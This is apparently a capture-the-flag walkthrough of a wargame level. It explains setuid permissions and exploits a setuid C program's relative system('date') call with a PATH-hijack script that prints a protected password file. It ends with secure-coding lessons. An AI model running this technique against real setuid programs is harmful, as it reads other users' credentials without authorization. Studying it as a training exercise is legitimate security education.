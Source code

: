 TODO: cut the crap. it's obvious what is what:
the source of the vulnerable program is /at/some/path,
the vulnerable program is setuid,
the password file is only readable by the owner
-> our task is to bend the setuid program to our will

## Level 1: avoid the "system" call

When you start the Live CD,
you are automatically logged in as user `level00`,
and presented the instructions:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

The goal is to get access to user `level01`,
by somehow reading his password saved in a file
in his home directory.
What can we do here?

The file `/home/level01/.password` is not readable.
The home directory of `level01` appears to be well- protected,
with permissions `0700`,
owned by user `level01` and group `level01`.

Ok, so let's look at `/levels/level01` as hinted by
the instructions we saw after login:

    $ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Ha! The user permission of the file `level01` looks unusual: `rws`.
What's that?
Normally the 3rd letter in the permission bits
is either `x` or `-`,
indicating whether the file is executable or not.
Here we have `s`,
which indicates the `setuid` bit is set.
`setuid` stands for `set-user-ID-on-execution`.
When you run a program,
normally it's executed as the current user.
But, when the `setuid` bit is set,
the program will run as the owner of the file itself,
as opposed to the current user.
So even though we are logged in as user `level00` now,
when we execute this program it will run as `level01`.

Great, so how can we use this to our benefit?
As we checked earlier,
we cannot read the `.password` file owned by `level01`.
But `level01` could.
And if we run the `setuid` program owned by `level01`,
that process could read the file too.
Well let's just run it and see what happens, eh:

    $ /levels/level01/level01
    Current time: Tue Sep  3 23:55:54 UTC 2013

Ok so that doesn't get us very far.
The program just displays the date,
that's it.
However,
if we take a look at the other files in the directory,
the file `level01.c` looks suspiciously like the source code of
the program:

    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char **argv)
    {
      printf("Current time: ");
      fflush(stdout);
      system("date");
      return 0;
    }

The most suspicious line here is of course `system("date")`.
What does it really do?
We can look that up in `man system`: it executes the specified command by calling `/bin/sh -c`.
And since the specified command is not an absolute path,
the shell will search for it in the list of paths defined in `$PATH`,
and use the first one it finds.

Therein lies our exploit:

1. Create a script named "date" in a directory readable by user `level01`,
   and make it print the content of `/home/level01/.password`

        $ cat > /tmp/date
        #!/bin/cat /home/level01/.password
        ^D  # press Control-D to stop editing

2. Make it executable

        $ chmod +x /tmp/date

3. Prepend the directory of the script to `PATH`,
   so that our script is found before the real `date` program.

        $ PATH=/tmp:$PATH

Now if we run the `level01` command again:

    $ /levels/level01/level01
    Current time: aepeefoo
    #!/bin/cat /home/level01/.password

Bingo! Now we can login as user `level01` using the revealed password.

What can we learn from all this?

- Make sure you have read and understood the documentation of library methods you use:
  `man system` explains that it should not be used in setuid programs.
- If you must use `system()`,
  be careful with relative paths,
  as the user can easily subvert the intended behavior by manipulating the `PATH`.
  The `level01` program would have been a lot safer if had used the full path `/bin/date` instead of just `date`.
